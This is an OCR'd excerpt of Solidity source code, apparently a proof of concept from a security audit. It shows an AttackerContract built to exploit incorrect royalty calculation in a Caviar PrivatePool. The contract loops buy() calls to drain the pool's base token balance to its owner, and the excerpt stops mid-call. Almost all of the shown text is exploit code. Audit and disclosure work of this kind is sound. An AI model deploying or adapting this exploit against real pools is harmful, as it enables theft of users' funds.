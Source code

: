 ```solidity
     * @dev This function is only callable by the owner/DAO behind the project.
     */
    function withdraw() external onlyOwner {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success);
    }
}

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract AttackerContract is Ownable, ERC721TokenReceiver {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public vulnerablePrivatePool;

    /// @notice The target token ID that will be used to perform the exploit.
    uint256 public tokenId;

    /// @notice Needed to reset state after attack is performed.
    uint256 public originalFee;

    /// @notice Helper flags needed to navigate the attack path in the receive() function.
    bool public f1;
    bool public f2;

    /**
     * @param _vulnerablePrivatePool The address of the targeted Caviar private pool.
     * @param _nft The NFT collection address.
     * @param _tokenId The specific NFT that will be used for the exploit.
     */
    constructor(
        address payable _vulnerablePrivatePool,
        address _nft,
        uint256 _tokenId
    ) {
        nft = ERC721RoyaltyCollection(_nft);
        vulnerablePrivatePool = PrivatePool(_vulnerablePrivatePool);

        tokenId = _tokenId;
    }

    /**
     * @notice Executes the attack. Drains the base token balance of the private pool and sends it to the owner.
     * @param iterations How many times to perform the attack in order to drain the entire base token balance of the pool.
     * @param tokenIds An array including only the tokenId that will be used to perform the attack.
     * @param tokenWeights Empty array if the merkle root is bytes32(0).
     * @param proof Empty if the merkle root is bytes32(0).
     */
    function attack(
        uint256 iterations,
        uint256[] calldata tokenIds,
        uint256[] calldata tokenWeights,
        PrivatePool.MerkleMultiProof calldata proof
    ) external payable onlyOwner {
        // Execute attack.
        for (uint256 i; i < iterations; i++) {
            vulnerablePrivatePool.buy{value: msg.value}(
```